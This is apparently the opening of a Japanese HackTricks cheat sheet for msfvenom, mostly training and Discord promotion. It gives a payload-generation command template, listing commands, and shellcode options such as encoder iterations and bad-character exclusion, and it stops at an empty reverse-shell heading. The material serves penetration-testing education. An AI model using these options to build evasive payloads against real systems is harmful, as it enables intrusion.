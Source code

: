# MSFVenom - CheatSheet

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>HackTricksをサポートする</summary></details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (380).png" alt=""><figcaption></figcaption></figure>

[**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy)サーバーに参加して、経験豊富なハッカーやバグバウンティハンターとコミュニケーションを取りましょう!

**ハッキングの洞察**\
ハッキングのスリルと課題に深く掘り下げたコンテンツに参加する

**リアルタイムハックニュース**\
リアルタイムのニュースと洞察を通じて、急速に変化するハッキングの世界に遅れずについていく

**最新の発表**\
新しいバグバウンティの開始や重要なプラットフォームの更新について情報を得る

**[**Discord**](https://discord.com/invite/N3FrSbmwdy)に参加して、今日からトップハッカーとコラボレーションを始めましょう!**

***

## 基本的なmsfvenom

`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

`-a`を使用してアーキテクチャを指定するか、`--platform`を使用することもできます。

## リスト
```bash
msfvenom -l payloads #Payloads
msfvenom -l encoders #Encoders
```
## シェルコードを作成する際の一般的なパラメータ
```bash
-b "\x00\x0a\x0d"
-f c
-e x86/shikata_ga_nai -i 5
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```
## **Windows**

### **リバースシェル**

